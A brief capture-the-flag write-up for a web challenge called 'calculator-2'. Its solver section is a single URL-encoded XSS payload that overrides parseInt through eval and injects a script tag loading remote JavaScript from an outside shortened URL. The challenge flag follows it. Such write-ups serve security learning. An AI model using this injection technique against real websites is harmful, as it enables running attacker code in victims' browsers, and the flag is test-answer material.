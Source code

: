 ## Solver

Use tuples to overwrite the `parseInt` function

```
https://calculator-2.mc.ax/?q=%28eval%28%22parseInt%3Dx%3D%3Ex%22%29%2CparseInt%28%22%3Cscript%2Fsrc%3D%2F%22%2B%22%2Ft.ly%2F546td%3E%3C%2Fscript%3E%22%29%29
```

## Flag

dice{learning-how-eslint-works}
